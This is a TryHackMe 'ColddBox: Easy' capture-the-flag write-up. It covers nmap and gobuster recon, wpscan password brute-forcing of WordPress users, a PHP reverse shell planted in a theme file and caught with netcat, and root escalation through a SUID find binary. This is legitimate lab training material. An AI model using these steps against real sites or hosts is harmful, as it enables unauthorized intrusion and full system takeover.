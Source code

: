 ```yaml
---
title: "TryHackMe - ColddBox: Easy"
categories:
  - TryHackMe
tags:
  - escalation
  - privesc
  - exploit
  - writeup
  - tryhackme
  - hacking
---
```

An easy level machine with multiple ways to escalate privileges.

## Scanning
- Check if the machine is up.
```bash
    $ ping 10.10.203.8                                                                     
    PING 10.10.203.8 (10.10.203.8) 56(84) bytes of data.
    64 bytes from 10.10.203.8: icmp_seq=1 ttl=63 time=200 ms
    64 bytes from 10.10.203.8: icmp_seq=2 ttl=63 time=199 ms
    ```

- Nmap time! With aggressive mode because why not.
    ```bash
    $ sudo nmap -A -oN resultNmap 10.10.203.8                                                   130 ⨯
    [sudo] password for kali: 
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-09 07:25 EST
    Nmap scan report for 10.10.203.8
    Host is up (0.20s latency).
    Not shown: 999 closed ports
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-generator: WordPress 4.1.31
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: ColddBox | One more machine
    No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
    TCP/IP fingerprint:
    OS:SCAN(V=7.91%E=4%D=1/9%OT=80%CT=1%CU=44313%PV=Y%DS=2%DC=T%G=Y%TM=5FF9A0E5
    OS:%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=8)OPS(
    OS:O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST11
    OS:NW7%O6=M505ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(
    OS:R=Y%DF=Y%T=40%W=6903%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
    OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
    OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
    OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
    OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
    OS:S)

    Network Distance: 2 hops

    TRACEROUTE (using port 23/tcp)
    HOP RTT       ADDRESS
    1   199.31 ms 10.11.0.1
    2   199.37 ms 10.10.203.8

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 57.74 seconds
    ```

    Port 80 open with WordPress inside.

## Recon
- Open the website at port 80.
    <center><a href="/assets/images/tryhackme/colddbox-easy/1.png"><img src="/assets/images/tryhackme/colddbox-easy/1.png"></a></center>

- WordPress! Let's search for some directory first.
- Run `gobuster` to find directories, maybe interesting to us.
    ```bash
    $ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.203.8 -t5
    ===============================================================
    Gobuster v3.0.1
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
    ===============================================================
    [+] Url:            http://10.10.203.8
    [+] Threads:        5
    [+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    [+] Status codes:   200,204,301,302,307,401,403
    [+] User Agent:     gobuster/3.0.1
    [+] Timeout:        10s
    ===============================================================
    2021/01/09 07:49:55 Starting gobuster
    ===============================================================
    /wp-content (Status: 301)
    /wp-includes (Status: 301)
    /wp-admin (Status: 301)
    /hidden (Status: 301)
    ```

- There is `/hidden/` directory. Let's see what is it.
    <center><a href="/assets/images/tryhackme/colddbox-easy/2.png"><img src="/assets/images/tryhackme/colddbox-easy/2.png"></a></center>

## Initial Foothold

- There is 3 users there at the `/hidden/` page, which is `c0ldd`, `hugo`, and `philip. We could bruteforce the `wp-login` page since it's WordPress.
- Bruteforce the users password using `wp2scan`.
    ```bash
    $  wpscan --url 10.10.203.8 --usernames hugo,c0ldd,philip --passwords /usr/share/wordlists/rockyou.txt  

    _______________________________________________________________
            __          _______   _____
            \ \        / /  __ \ / ____|
            \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
            \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
                \  /\  /  | |     ____) | (__| (_| | | | |
                \/  \/   |_|    |_____/ \___|\__,_|_| |_|

            WordPress Security Scanner by the WPScan Team
                            Version 3.8.10
        Sponsored by Automattic - https://automattic.com/
        @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
    _______________________________________________________________

    [+] URL: http://10.10.203.8/ [10.10.203.8]
    [+] Started: Sat Jan  9 08:42:19 2021

    Interesting Finding(s):
    ...
    [+] Enumerating Config Backups (via Passive and Aggressive Methods)
    Checking Config Backups - Time: 00:00:01 <=======================> (22 / 22) 100.00% Time: 00:00:01

    [i] No Config Backups Found.

    [+] Performing password attack on Wp Login against 3 user/s
    [SUCCESS] - c0ldd / 9876543210 
    ...

    ```

- We got c0ldd's password, let's login.
    <center><a href="/assets/images/tryhackme/colddbox-easy/3.png"><img src="/assets/images/tryhackme/colddbox-easy/3.png"></a></center>

- We got the Admin's Dashboard. Let's upload our [reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) by changing the source code of `header.php` file and update the file once we done it.
    <center><a href="/assets/images/tryhackme/colddbox-easy/4.png"><img src="/assets/images/tryhackme/colddbox-easy/4.png"></a></center>

    **Don't Forget** to change the `$ip` and `$port` of the reverse shell to your `tun0` IP Address and your netcat listen port.
    {: .notice--info}

- Run `netcat` to listen the port we declared on the reverse shell.
    ```bash
    $ nc -lnvp 4444                   
    listening on [any] 4444 ...
    ```

- Open the machine's IP at port 80 again and we got our reverse shell working!
    ```bash
    $ nc -lnvp 4444                   
    listening on [any] 4444 ...
    connect to [10.11.25.205] from (UNKNOWN) [10.10.203.8] 58816
    Linux ColddBox-Easy 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
    15:31:59 up  2:19,  0 users,  load average: 0.00, 0.00, 0.00
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    /bin/sh: 0: can't access tty; job control turned off
    $ whoami
    www-data
    ```

## Escalation
- Search for existing SUID.
    ```bash
    $ find / -uid 0 -perm -4000 -type f 2>/dev/null
    /bin/fusermount
    /bin/umount
    /bin/mount
    /usr/bin/chsh
    /usr/bin/gpasswd
    /usr/bin/pkexec
    /usr/bin/find
    /usr/bin/sudo
    /usr/bin/newgidmap
    /usr/bin/newgrp
    /usr/bin/newuidmap
    /usr/bin/chfn
    /usr/bin/passwd
    /usr/lib/openssh/ssh-keysign
    /usr/lib/snapd/snap-confine
    /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/policykit-1/polkit-agent-helper-1
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    ```

- We can use payload from [gtfobins](https://gtfobins.github.io/gtfobins/find/#suid) to escalate our privilege using SUID at `/usr/bin/find`.
    ```bash
    $ find . -exec /bin/sh -p \; -quit
    $ whoami
    root
    ```

- user.txt:
    ```bash
    $ cd /home/c0ldd
    $ ls
    user.txt
    $ cat user.txt
    --REDACTED--
    ```
- root.txt:
    ```bash
    $ cd /root
    $ ls
    root.txt
    $ cat root.txt
    --REDACTED--
    ```